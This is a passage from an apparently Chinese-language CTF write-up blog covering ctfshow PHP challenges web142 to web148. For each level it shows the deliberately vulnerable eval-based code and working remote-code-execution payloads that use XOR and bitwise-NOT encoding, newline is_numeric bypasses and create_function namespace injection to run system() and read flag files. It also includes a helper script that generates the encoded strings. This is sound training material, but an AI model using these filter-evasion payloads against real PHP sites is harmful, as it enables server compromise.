<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="number">00100000</span>                <span class="number">20</span></span><br><span class="line"><span class="number">00100001</span>        !       <span class="number">21</span></span><br><span class="line"><span class="number">00100010</span>        <span class="string">&quot;       22</span></span><br><span class="line"><span class="string">00100011        #       23</span></span><br><span class="line"><span class="string">00100100        $       24</span></span><br><span class="line"><span class="string">00100101        %       25</span></span><br><span class="line"><span class="string">00100110        &amp;       26</span></span><br><span class="line"><span class="string">00100111        &#x27;       27</span></span><br><span class="line"><span class="string">00101000        (       28</span></span><br><span class="line"><span class="string">00101001        )       29</span></span><br><span class="line"><span class="string">00101010        *       2a</span></span><br><span class="line"><span class="string">00101011        +       2b</span></span><br><span class="line"><span class="string">00101100        ,       2c</span></span><br><span class="line"><span class="string">00101101        -       2d</span></span><br><span class="line"><span class="string">00101110        .       2e</span></span><br><span class="line"><span class="string">00101111        /       2f</span></span><br><span class="line"><span class="string">00110000        0       30</span></span><br><span class="line"><span class="string">00110001        1       31</span></span><br><span class="line"><span class="string">00110010        2       32</span></span><br><span class="line"><span class="string">00110011        3       33</span></span><br><span class="line"><span class="string">00110100        4       34</span></span><br><span class="line"><span class="string">00110101        5       35</span></span><br><span class="line"><span class="string">00110110        6       36</span></span><br><span class="line"><span class="string">00110111        7       37</span></span><br><span class="line"><span class="string">00111000        8       38</span></span><br><span class="line"><span class="string">00111001        9       39</span></span><br><span class="line"><span class="string">00111010        :       3a</span></span><br><span class="line"><span class="string">00111011        ;       3b</span></span><br><span class="line"><span class="string">00111100        &lt;       3c</span></span><br><span class="line"><span class="string">00111101        =       3d</span></span><br><span class="line"><span class="string">00111110        &gt;       3e</span></span><br><span class="line"><span class="string">00111111        ?       3f</span></span><br><span class="line"><span class="string">01000000        @       40</span></span><br><span class="line"><span class="string">01000001        A       41</span></span><br><span class="line"><span class="string">01000010        B       42</span></span><br><span class="line"><span class="string">01000011        C       43</span></span><br><span class="line"><span class="string">01000100        D       44</span></span><br><span class="line"><span class="string">01000101        E       45</span></span><br><span class="line"><span class="string">01000110        F       46</span></span><br><span class="line"><span class="string">01000111        G       47</span></span><br><span class="line"><span class="string">01001000        H       48</span></span><br><span class="line"><span class="string">01001001        I       49</span></span><br><span class="line"><span class="string">01001010        J       4a</span></span><br><span class="line"><span class="string">01001011        K       4b</span></span><br><span class="line"><span class="string">01001100        L       4c</span></span><br><span class="line"><span class="string">01001101        M       4d</span></span><br><span class="line"><span class="string">01001110        N       4e</span></span><br><span class="line"><span class="string">01001111        O       4f</span></span><br><span class="line"><span class="string">01010000        P       50</span></span><br><span class="line"><span class="string">01010001        Q       51</span></span><br><span class="line"><span class="string">01010010        R       52</span></span><br><span class="line"><span class="string">01010011        S       53</span></span><br><span class="line"><span class="string">01010100        T       54</span></span><br><span class="line"><span class="string">01010101        U       55</span></span><br><span class="line"><span class="string">01010110        V       56</span></span><br><span class="line"><span class="string">01010111        W       57</span></span><br><span class="line"><span class="string">01011000        X       58</span></span><br><span class="line"><span class="string">01011001        Y       59</span></span><br><span class="line"><span class="string">01011010        Z       5a</span></span><br><span class="line"><span class="string">01011011        [       5b</span></span><br><span class="line"><span class="string">01011100        \       5c</span></span><br><span class="line"><span class="string">01011101        ]       5d</span></span><br><span class="line"><span class="string">01011110        ^       5e</span></span><br><span class="line"><span class="string">01011111        _       5f</span></span><br><span class="line"><span class="string">01100000        `       60</span></span><br><span class="line"><span class="string">01100001        a       61</span></span><br><span class="line"><span class="string">01100010        b       62</span></span><br><span class="line"><span class="string">01100011        c       63</span></span><br><span class="line"><span class="string">01100100        d       64</span></span><br><span class="line"><span class="string">01100101        e       65</span></span><br><span class="line"><span class="string">01100110        f       66</span></span><br><span class="line"><span class="string">01100111        g       67</span></span><br><span class="line"><span class="string">01101000        h       68</span></span><br><span class="line"><span class="string">01101001        i       69</span></span><br><span class="line"><span class="string">01101010        j       6a</span></span><br><span class="line"><span class="string">01101011        k       6b</span></span><br><span class="line"><span class="string">01101100        l       6c</span></span><br><span class="line"><span class="string">01101101        m       6d</span></span><br><span class="line"><span class="string">01101110        n       6e</span></span><br><span class="line"><span class="string">01101111        o       6f</span></span><br><span class="line"><span class="string">01110000        p       70</span></span><br><span class="line"><span class="string">01110001        q       71</span></span><br><span class="line"><span class="string">01110010        r       72</span></span><br><span class="line"><span class="string">01110011        s       73</span></span><br><span class="line"><span class="string">01110100        t       74</span></span><br><span class="line"><span class="string">01110101        u       75</span></span><br><span class="line"><span class="string">01110110        v       76</span></span><br><span class="line"><span class="string">01110111        w       77</span></span><br><span class="line"><span class="string">01111000        x       78</span></span><br><span class="line"><span class="string">01111001        y       79</span></span><br><span class="line"><span class="string">01111010        z       7a</span></span><br><span class="line"><span class="string">01111011        &#123;       7b</span></span><br><span class="line"><span class="string">01111100        |       7c</span></span><br><span class="line"><span class="string">01111101        &#125;       7d</span></span><br><span class="line"><span class="string">01111110        ~       7e</span></span><br></pre></td></tr></table></figure>


<h1 id="web142"><a href="#web142" class="headerlink" title="web142"></a>web142</h1><h2 id="原始信息-51"><a href="#原始信息-51" class="headerlink" title="原始信息"></a>原始信息</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="title function_ invoke__">error_reporting</span>(<span class="number">0</span>);</span><br><span class="line"><span class="title function_ invoke__">highlight_file</span>(<span class="keyword">__FILE__</span>);</span><br><span class="line"><span class="keyword">if</span>(<span class="keyword">isset</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;v1&#x27;</span>]))&#123;</span><br><span class="line">    <span class="variable">$v1</span> = (String)<span class="variable">$_GET</span>[<span class="string">&#x27;v1&#x27;</span>];</span><br><span class="line">    <span class="keyword">if</span>(<span class="title function_ invoke__">is_numeric</span>(<span class="variable">$v1</span>))&#123;</span><br><span class="line">        <span class="variable">$d</span> = (<span class="keyword">int</span>)(<span class="variable">$v1</span> * <span class="number">0x36d</span> * <span class="number">0x36d</span> * <span class="number">0x36d</span> * <span class="number">0x36d</span> * <span class="number">0x36d</span>);</span><br><span class="line">        <span class="title function_ invoke__">sleep</span>(<span class="variable">$d</span>);</span><br><span class="line">        <span class="keyword">echo</span> <span class="title function_ invoke__">file_get_contents</span>(<span class="string">&quot;flag.php&quot;</span>);</span><br><span class="line">    &#125;</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>

<h2 id="解题-48"><a href="#解题-48" class="headerlink" title="解题"></a>解题</h2><p>看起来，只需要传入一个数字即可解决问题</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">?v1=-<span class="number">1</span></span><br></pre></td></tr></table></figure>

<p>在网页源代码当作查看flag即可。</p>
<h1 id="web143"><a href="#web143" class="headerlink" title="web143"></a>web143</h1><h2 id="原始信息-52"><a href="#原始信息-52" class="headerlink" title="原始信息"></a>原始信息</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="title function_ invoke__">highlight_file</span>(<span class="keyword">__FILE__</span>);</span><br><span class="line"><span class="keyword">if</span>(<span class="keyword">isset</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;v1&#x27;</span>]) &amp;&amp; <span class="keyword">isset</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;v2&#x27;</span>]) &amp;&amp; <span class="keyword">isset</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;v3&#x27;</span>]))&#123;</span><br><span class="line">    <span class="variable">$v1</span> = (String)<span class="variable">$_GET</span>[<span class="string">&#x27;v1&#x27;</span>];</span><br><span class="line">    <span class="variable">$v2</span> = (String)<span class="variable">$_GET</span>[<span class="string">&#x27;v2&#x27;</span>];</span><br><span class="line">    <span class="variable">$v3</span> = (String)<span class="variable">$_GET</span>[<span class="string">&#x27;v3&#x27;</span>];</span><br><span class="line">    <span class="keyword">if</span>(<span class="title function_ invoke__">is_numeric</span>(<span class="variable">$v1</span>) &amp;&amp; <span class="title function_ invoke__">is_numeric</span>(<span class="variable">$v2</span>))&#123;</span><br><span class="line">        <span class="keyword">if</span>(<span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/[a-z]|[0-9]|\+|\-|\.|\_|\||\$|\&#123;|\&#125;|\~|\%|\&amp;|\;/i&#x27;</span>, <span class="variable">$v3</span>))&#123;</span><br><span class="line">                <span class="keyword">die</span>(<span class="string">&#x27;get out hacker!&#x27;</span>);</span><br><span class="line">        &#125;</span><br><span class="line">        <span class="keyword">else</span>&#123;</span><br><span class="line">            <span class="variable">$code</span> =  <span class="keyword">eval</span>(<span class="string">&quot;return <span class="subst">$v1</span><span class="subst">$v3</span><span class="subst">$v2</span>;&quot;</span>);</span><br><span class="line">            <span class="keyword">echo</span> <span class="string">&quot;<span class="subst">$v1</span><span class="subst">$v3</span><span class="subst">$v2</span> = &quot;</span>.<span class="variable">$code</span>;</span><br><span class="line">        &#125;</span><br><span class="line">    &#125;</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>


<h2 id="解题-49"><a href="#解题-49" class="headerlink" title="解题"></a>解题</h2><p>没被过滤的ASCII如下：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">[空格] ! <span class="string">&quot; # &#x27; ( ) * , / : &lt; = &gt; ? @ [ \ ] ^ ` </span></span><br></pre></td></tr></table></figure>

<p>使用异或绕过即可</p>
<p>具体参照web141</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment"># system(cat flag.php)</span></span><br><span class="line">GET: ?v1=<span class="number">1</span>&amp;v2=<span class="number">2</span>&amp;v3=*(%<span class="number">89</span>%<span class="number">83</span>%<span class="number">89</span>%<span class="number">8</span>E%<span class="number">9</span>F%<span class="number">97</span>^%fa%fa%fa%fa%fa%fa)(%<span class="number">99</span>%<span class="number">9</span>B%<span class="number">8</span>E%DA%<span class="number">9</span>C%<span class="number">96</span>%<span class="number">9</span>B%<span class="number">9</span>D%D4%<span class="number">8</span>A%<span class="number">92</span>%<span class="number">8</span>A^%fa%fa%fa%fa%fa%fa%fa%fa%fa%fa%fa%fa)*</span><br><span class="line"><span class="keyword">return</span>: 正常回显flag，不过还是藏在源码当中。</span><br></pre></td></tr></table></figure>

<h1 id="web144"><a href="#web144" class="headerlink" title="web144"></a>web144</h1><h2 id="原始信息-53"><a href="#原始信息-53" class="headerlink" title="原始信息"></a>原始信息</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="title function_ invoke__">highlight_file</span>(<span class="keyword">__FILE__</span>);</span><br><span class="line"><span class="keyword">if</span>(<span class="keyword">isset</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;v1&#x27;</span>]) &amp;&amp; <span class="keyword">isset</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;v2&#x27;</span>]) &amp;&amp; <span class="keyword">isset</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;v3&#x27;</span>]))&#123;</span><br><span class="line">    <span class="variable">$v1</span> = (String)<span class="variable">$_GET</span>[<span class="string">&#x27;v1&#x27;</span>];</span><br><span class="line">    <span class="variable">$v2</span> = (String)<span class="variable">$_GET</span>[<span class="string">&#x27;v2&#x27;</span>];</span><br><span class="line">    <span class="variable">$v3</span> = (String)<span class="variable">$_GET</span>[<span class="string">&#x27;v3&#x27;</span>];</span><br><span class="line"></span><br><span class="line">    <span class="keyword">if</span>(<span class="title function_ invoke__">is_numeric</span>(<span class="variable">$v1</span>) &amp;&amp; <span class="title function_ invoke__">check</span>(<span class="variable">$v3</span>))&#123;</span><br><span class="line">        <span class="keyword">if</span>(<span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/^\W+$/&#x27;</span>, <span class="variable">$v2</span>))&#123;</span><br><span class="line">            <span class="variable">$code</span> =  <span class="keyword">eval</span>(<span class="string">&quot;return <span class="subst">$v1</span><span class="subst">$v3</span><span class="subst">$v2</span>;&quot;</span>);</span><br><span class="line">            <span class="keyword">echo</span> <span class="string">&quot;<span class="subst">$v1</span><span class="subst">$v3</span><span class="subst">$v2</span> = &quot;</span>.<span class="variable">$code</span>;</span><br><span class="line">        &#125;</span><br><span class="line">    &#125;</span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="function"><span class="keyword">function</span> <span class="title">check</span>(<span class="params"><span class="variable">$str</span></span>)</span>&#123;</span><br><span class="line">    <span class="keyword">return</span> <span class="title function_ invoke__">strlen</span>(<span class="variable">$str</span>)===<span class="number">1</span>?<span class="literal">true</span>:<span class="literal">false</span>;</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>


<h2 id="解题-50"><a href="#解题-50" class="headerlink" title="解题"></a>解题</h2><p>原理和141，143差不多，这里不赘述，上payload：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment"># system(cat flag.php)</span></span><br><span class="line">GET: ?v1=<span class="number">1</span>&amp;v3=<span class="number">2</span>&amp;v2=*(%<span class="number">89</span>%<span class="number">83</span>%<span class="number">89</span>%<span class="number">8</span>E%<span class="number">9</span>F%<span class="number">97</span>^%fa%fa%fa%fa%fa%fa)(%<span class="number">99</span>%<span class="number">9</span>B%<span class="number">8</span>E%DA%<span class="number">9</span>C%<span class="number">96</span>%<span class="number">9</span>B%<span class="number">9</span>D%D4%<span class="number">8</span>A%<span class="number">92</span>%<span class="number">8</span>A^%fa%fa%fa%fa%fa%fa%fa%fa%fa%fa%fa%fa)</span><br><span class="line"><span class="keyword">return</span>: 正常回显flag，不过还是藏在源码当中。</span><br></pre></td></tr></table></figure>

<h1 id="web145"><a href="#web145" class="headerlink" title="web145"></a>web145</h1><h2 id="原始信息-54"><a href="#原始信息-54" class="headerlink" title="原始信息"></a>原始信息</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="title function_ invoke__">highlight_file</span>(<span class="keyword">__FILE__</span>);</span><br><span class="line"><span class="keyword">if</span>(<span class="keyword">isset</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;v1&#x27;</span>]) &amp;&amp; <span class="keyword">isset</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;v2&#x27;</span>]) &amp;&amp; <span class="keyword">isset</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;v3&#x27;</span>]))&#123;</span><br><span class="line">    <span class="variable">$v1</span> = (String)<span class="variable">$_GET</span>[<span class="string">&#x27;v1&#x27;</span>];</span><br><span class="line">    <span class="variable">$v2</span> = (String)<span class="variable">$_GET</span>[<span class="string">&#x27;v2&#x27;</span>];</span><br><span class="line">    <span class="variable">$v3</span> = (String)<span class="variable">$_GET</span>[<span class="string">&#x27;v3&#x27;</span>];</span><br><span class="line">    <span class="keyword">if</span>(<span class="title function_ invoke__">is_numeric</span>(<span class="variable">$v1</span>) &amp;&amp; <span class="title function_ invoke__">is_numeric</span>(<span class="variable">$v2</span>))&#123;</span><br><span class="line">        <span class="keyword">if</span>(<span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/[a-z]|[0-9]|\@|\!|\+|\-|\.|\_|\$|\&#125;|\%|\&amp;|\;|\&lt;|\&gt;|\*|\/|\^|\#|\&quot;/i&#x27;</span>, <span class="variable">$v3</span>))&#123;</span><br><span class="line">                <span class="keyword">die</span>(<span class="string">&#x27;get out hacker!&#x27;</span>);</span><br><span class="line">        &#125;</span><br><span class="line">        <span class="keyword">else</span>&#123;</span><br><span class="line">            <span class="variable">$code</span> =  <span class="keyword">eval</span>(<span class="string">&quot;return <span class="subst">$v1</span><span class="subst">$v3</span><span class="subst">$v2</span>;&quot;</span>);</span><br><span class="line">            <span class="keyword">echo</span> <span class="string">&quot;<span class="subst">$v1</span><span class="subst">$v3</span><span class="subst">$v2</span> = &quot;</span>.<span class="variable">$code</span>;</span><br><span class="line">        &#125;</span><br><span class="line">    &#125;</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>


<h2 id="解题-51"><a href="#解题-51" class="headerlink" title="解题"></a>解题</h2><p>没过滤的ascii：</p>
<figure class="highlight bash"><table><tr><td class="code"><pre><span class="line"><span class="string">&#x27; ( ) , : = ? [ \ ] ` &#123; | ~ |</span></span><br></pre></td></tr></table></figure>

<p>考点：</p>
<ul>
<li>使用 <strong>按位取反运算符</strong> 翻转字符串</li>
<li>使用换行绕过php的is_numeric</li>
<li>使用三元表达式 (a?b:c) 绕过无法输入加减乘除符号的限制</li>
</ul>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">payload:</span><br><span class="line"><span class="comment"># 相当于：var_dump(system(&#x27;cat f*&#x27;))</span></span><br><span class="line">?v1=%<span class="number">0</span>a1&amp;v2=%<span class="number">0</span>a0&amp;v3=?(~%<span class="number">89</span>%<span class="number">9</span>E%<span class="number">8</span>D%A0%<span class="number">9</span>B%<span class="number">8</span>A%<span class="number">92</span>%<span class="number">8</span>F)((~%<span class="number">8</span>C%<span class="number">86</span>%<span class="number">8</span>C%<span class="number">8</span>B%<span class="number">9</span>A%<span class="number">92</span>)(~%<span class="number">9</span>C%<span class="number">9</span>E%<span class="number">8</span>B%DF%<span class="number">99</span>%D5)):</span><br></pre></td></tr></table></figure>

<h1 id="web146"><a href="#web146" class="headerlink" title="web146"></a>web146</h1><h2 id="原始信息-55"><a href="#原始信息-55" class="headerlink" title="原始信息"></a>原始信息</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="title function_ invoke__">highlight_file</span>(<span class="keyword">__FILE__</span>);</span><br><span class="line"><span class="keyword">if</span>(<span class="keyword">isset</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;v1&#x27;</span>]) &amp;&amp; <span class="keyword">isset</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;v2&#x27;</span>]) &amp;&amp; <span class="keyword">isset</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;v3&#x27;</span>]))&#123;</span><br><span class="line">    <span class="variable">$v1</span> = (String)<span class="variable">$_GET</span>[<span class="string">&#x27;v1&#x27;</span>];</span><br><span class="line">    <span class="variable">$v2</span> = (String)<span class="variable">$_GET</span>[<span class="string">&#x27;v2&#x27;</span>];</span><br><span class="line">    <span class="variable">$v3</span> = (String)<span class="variable">$_GET</span>[<span class="string">&#x27;v3&#x27;</span>];</span><br><span class="line">    <span class="keyword">if</span>(<span class="title function_ invoke__">is_numeric</span>(<span class="variable">$v1</span>) &amp;&amp; <span class="title function_ invoke__">is_numeric</span>(<span class="variable">$v2</span>))&#123;</span><br><span class="line">        <span class="keyword">if</span>(<span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/[a-z]|[0-9]|\@|\!|\:|\+|\-|\.|\_|\$|\&#125;|\%|\&amp;|\;|\&lt;|\&gt;|\*|\/|\^|\#|\&quot;/i&#x27;</span>, <span class="variable">$v3</span>))&#123;</span><br><span class="line">                <span class="keyword">die</span>(<span class="string">&#x27;get out hacker!&#x27;</span>);</span><br><span class="line">        &#125;</span><br><span class="line">        <span class="keyword">else</span>&#123;</span><br><span class="line">            <span class="variable">$code</span> =  <span class="keyword">eval</span>(<span class="string">&quot;return <span class="subst">$v1</span><span class="subst">$v3</span><span class="subst">$v2</span>;&quot;</span>);</span><br><span class="line">            <span class="keyword">echo</span> <span class="string">&quot;<span class="subst">$v1</span><span class="subst">$v3</span><span class="subst">$v2</span> = &quot;</span>.<span class="variable">$code</span>;</span><br><span class="line">        &#125;</span><br><span class="line">    &#125;</span><br><span class="line">&#125; </span><br></pre></td></tr></table></figure>

<h2 id="解题-52"><a href="#解题-52" class="headerlink" title="解题"></a>解题</h2><p>没过滤的ascii：</p>
<figure class="highlight bash"><table><tr><td class="code"><pre><span class="line"><span class="string">&#x27; ( ) , = ? [ \ ] ` &#123; | ~ |</span></span><br></pre></td></tr></table></figure>

<p>根据上一题，多了个  <strong>“:”</strong> 的过滤，使用 或运算符绕过，payload几乎不变：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">payload:</span><br><span class="line"><span class="comment"># 相当于：var_dump(system(&#x27;cat f*&#x27;))</span></span><br><span class="line">?v1=%<span class="number">0</span>a1&amp;v2=%<span class="number">0</span>a0&amp;v3=|(~%<span class="number">89</span>%<span class="number">9</span>E%<span class="number">8</span>D%A0%<span class="number">9</span>B%<span class="number">8</span>A%<span class="number">92</span>%<span class="number">8</span>F)((~%<span class="number">8</span>C%<span class="number">86</span>%<span class="number">8</span>C%<span class="number">8</span>B%<span class="number">9</span>A%<span class="number">92</span>)(~%<span class="number">9</span>C%<span class="number">9</span>E%<span class="number">8</span>B%DF%<span class="number">99</span>%D5))|</span><br></pre></td></tr></table></figure>

<h1 id="web147"><a href="#web147" class="headerlink" title="web147"></a>web147</h1><h2 id="原始信息-56"><a href="#原始信息-56" class="headerlink" title="原始信息"></a>原始信息</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="title function_ invoke__">highlight_file</span>(<span class="keyword">__FILE__</span>);</span><br><span class="line"><span class="keyword">if</span>(<span class="keyword">isset</span>(<span class="variable">$_POST</span>[<span class="string">&#x27;ctf&#x27;</span>]))&#123;</span><br><span class="line">    <span class="variable">$ctfshow</span> = <span class="variable">$_POST</span>[<span class="string">&#x27;ctf&#x27;</span>];</span><br><span class="line">    <span class="keyword">if</span>(!<span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/^[a-z0-9_]*$/isD&#x27;</span>,<span class="variable">$ctfshow</span>)) &#123;</span><br><span class="line">        <span class="variable">$ctfshow</span>(<span class="string">&#x27;&#x27;</span>,<span class="variable">$_GET</span>[<span class="string">&#x27;show&#x27;</span>]);</span><br><span class="line">    &#125;</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>

<h2 id="解题-53"><a href="#解题-53" class="headerlink" title="解题"></a>解题</h2><p>使用命名空间解决字母数字的过滤问题，使用匿名函数去调用和执行php代码</p>
<blockquote>
<p>命名空间: 命名空间（Namespace）是一种用于组织和管理代码的机制。它通过给不同的代码元素（如类、函数、常量）指定一个唯一的标识符前缀，避免了命名冲突和命名污染。</p>
<p>命名冲突: 当在同一作用域中引入了具有相同名称的多个代码元素（如变量、函数、类等），就会发生命名冲突。</p>
<p>命名污染: 命名污染是指由于引入外部代码或不规范的命名管理导致当前代码作用域中的命名冲突或混乱的现象。</p>
<p>匿名函数: create_function(a,b)创建匿名函数，参数a可以省略，函数b不能省略。</p>
</blockquote>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment"># 匿名函数调用phpinfo</span></span><br><span class="line"><span class="variable">$func</span> = <span class="title function_ invoke__">create_function</span>(<span class="string">&#x27;&#x27;</span>, <span class="string">&#x27;phpinfo();&#x27;</span>);</span><br><span class="line"><span class="variable">$func</span>();</span><br><span class="line"></span><br><span class="line"><span class="comment"># 命名空间</span></span><br><span class="line"><span class="keyword">namespace</span> <span class="title class_">MyProject</span>\<span class="title class_">SubNamespace</span>;</span><br></pre></td></tr></table></figure>

<p>payload：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment"># </span></span><br><span class="line"><span class="comment"># 使用命名空间调用匿名函数</span></span><br><span class="line"><span class="comment"># 使用show参数提前闭合函数,再调用命令行</span></span><br><span class="line"><span class="comment"># 最后注释掉后面的代码避免形成干扰。</span></span><br><span class="line">GET:   ?show=;&#125;;<span class="title function_ invoke__">system</span>(<span class="string">&#x27;grep flag flag.php&#x27;</span>);<span class="comment">/*</span></span><br><span class="line"><span class="comment">POSOT: ctf=\create_function</span></span><br></pre></td></tr></table></figure>

<p>官方的注释贴这了：</p>
<figure class="highlight bash"><table><tr><td class="code"><pre><span class="line">php里默认命名空间是\，所有原生函数和类都在这个命名空间中。 </span><br><span class="line">普通调用一个函数，如果直接写函数名function_name()调用，调用的时候其实相当于写了一个相对路径； </span><br><span class="line">而如果写\function_name()这样调用函数，则其实是写了一个绝对路径。 </span><br><span class="line">如果你在其他namespace里调用系统类，就必须写绝对路径这种写 法</span><br></pre></td></tr></table></figure>

<h1 id="web148"><a href="#web148" class="headerlink" title="web148"></a>web148</h1><h2 id="原始信息-57"><a href="#原始信息-57" class="headerlink" title="原始信息"></a>原始信息</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="keyword">include</span> <span class="string">&#x27;flag.php&#x27;</span>;</span><br><span class="line"><span class="keyword">if</span>(<span class="keyword">isset</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;code&#x27;</span>]))&#123;</span><br><span class="line">    <span class="variable">$code</span>=<span class="variable">$_GET</span>[<span class="string">&#x27;code&#x27;</span>];</span><br><span class="line">    <span class="keyword">if</span>(<span class="title function_ invoke__">preg_match</span>(<span class="string">&quot;/[A-Za-z0-9_\%\\|\~\&#x27;\,\.\:\@\&amp;\*\+\- ]+/&quot;</span>,<span class="variable">$code</span>))&#123;</span><br><span class="line">        <span class="keyword">die</span>(<span class="string">&quot;error&quot;</span>);</span><br><span class="line">    &#125;</span><br><span class="line">    @<span class="keyword">eval</span>(<span class="variable">$code</span>);</span><br><span class="line">&#125;</span><br><span class="line"><span class="keyword">else</span>&#123;</span><br><span class="line">    <span class="title function_ invoke__">highlight_file</span>(<span class="keyword">__FILE__</span>);</span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="function"><span class="keyword">function</span> <span class="title">get_ctfshow_fl0g</span>(<span class="params"></span>)</span>&#123;</span><br><span class="line">    <span class="keyword">echo</span> <span class="title function_ invoke__">file_get_contents</span>(<span class="string">&quot;flag.php&quot;</span>);</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>


<h2 id="解题-54"><a href="#解题-54" class="headerlink" title="解题"></a>解题</h2><blockquote>
<p>思路：传入code，尝试使用特殊符号调用<code>get_ctfshow_fl0g</code> 函数读取flag</p>
</blockquote>
<p>首先写一个辅助脚本跑出没被过滤的ascii码，看看有没有利用价值：</p>
<figure class="highlight python"><table><tr><td class="code"><pre><span class="line"><span class="keyword">import</span> re</span><br><span class="line"></span><br><span class="line">pattern = <span class="string">r&#x27;[A-Za-z0-9_\%\\|\~\&#x27;\,\.\:\@\&amp;\*\+\- ]+&#x27;</span></span><br><span class="line">AllAscii = []</span><br><span class="line"><span class="keyword">for</span> item <span class="keyword">in</span> <span class="built_in">range</span>(<span class="number">32</span>,<span class="number">128</span>):</span><br><span class="line">    <span class="keyword">if</span> <span class="keyword">not</span> (re.findall(pattern, <span class="built_in">chr</span>(item))):</span><br><span class="line">        AllAscii.append(<span class="built_in">chr</span>(item))</span><br><span class="line"></span><br><span class="line"><span class="built_in">print</span>(AllAscii)</span><br></pre></td></tr></table></figure>

<p>跑出来的ascii码是：</p>
<figure class="highlight python"><table><tr><td class="code"><pre><span class="line">[<span class="string">&#x27;!&#x27;</span>, <span class="string">&#x27;&quot;&#x27;</span>, <span class="string">&#x27;#&#x27;</span>, <span class="string">&#x27;$&#x27;</span>, <span class="string">&#x27;(&#x27;</span>, <span class="string">&#x27;)&#x27;</span>, <span class="string">&#x27;/&#x27;</span>, <span class="string">&#x27;;&#x27;</span>, <span class="string">&#x27;&lt;&#x27;</span>, <span class="string">&#x27;=&#x27;</span>, <span class="string">&#x27;&gt;&#x27;</span>, <span class="string">&#x27;?&#x27;</span>, <span class="string">&#x27;[&#x27;</span>, <span class="string">&#x27;]&#x27;</span>, <span class="string">&#x27;^&#x27;</span>, <span class="string">&#x27;`&#x27;</span>, <span class="string">&#x27;&#123;&#x27;</span>, <span class="string">&#x27;&#125;&#x27;</span>, <span class="string">&#x27;\x7f&#x27;</span>]</span><br></pre></td></tr></table></figure>

<p>没有过滤这么多字符，考虑使用异或绕过无字母无数字的情况：</p>
<blockquote>
<p>脚本还是原来的那个脚本，源头在web141那儿.脚本内容以及运行如下：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="meta">&lt;?php</span></span><br><span class="line"><span class="keyword">while</span> (<span class="literal">true</span>) &#123;</span><br><span class="line">        <span class="keyword">echo</span> <span class="string">&quot;Please give me the key string: &quot;</span>;</span><br><span class="line">        <span class="variable">$a</span> = <span class="title function_ invoke__">rtrim</span>(<span class="title function_ invoke__">fgets</span>(STDIN), <span class="string">&quot;\r\n&quot;</span>);</span><br><span class="line">        <span class="keyword">echo</span> <span class="string">&#x27;value: &#x27;</span>;</span><br><span class="line">        <span class="keyword">for</span> (<span class="variable">$i</span> = <span class="number">0</span>; <span class="variable">$i</span> &lt; <span class="title function_ invoke__">strlen</span>(<span class="variable">$a</span>); <span class="variable">$i</span>++) &#123;</span><br><span class="line">                <span class="keyword">echo</span> <span class="title function_ invoke__">urlencode</span>(<span class="title function_ invoke__">urldecode</span>(<span class="string">&#x27;%fa&#x27;</span>) ^ <span class="title function_ invoke__">urldecode</span>(<span class="string">&#x27;%&#x27;</span> . <span class="title function_ invoke__">bin2hex</span>(<span class="variable">$a</span>[<span class="variable">$i</span>])));</span><br><span class="line">        &#125;</span><br><span class="line">        <span class="keyword">echo</span> <span class="string">&#x27;^&#x27;</span>;</span><br><span class="line">        <span class="keyword">for</span> (<span class="variable">$i</span> = <span class="number">0</span>; <span class="variable">$i</span> &lt; <span class="title function_ invoke__">strlen</span>(<span class="variable">$a</span>); <span class="variable">$i</span>++) &#123;</span><br><span class="line">                <span class="keyword">echo</span> <span class="string">&#x27;%fa&#x27;</span>;</span><br><span class="line">        &#125;</span><br><span class="line">        <span class="keyword">echo</span> <span class="string">&#x27;&#x27;</span> . PHP_EOL;</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>

<p>运行：</p>
<figure class="highlight bash"><table><tr><td class="code"><pre><span class="line">$ php web141.php</span><br><span class="line">Please give me the key string:</span><br></pre></td></tr></table></figure>

<p>输入对应的关键字符即可得到答案。</p>
</blockquote>
<p>下面是关于这个脚本的实际测试，后面就是实际的调试了。</p>
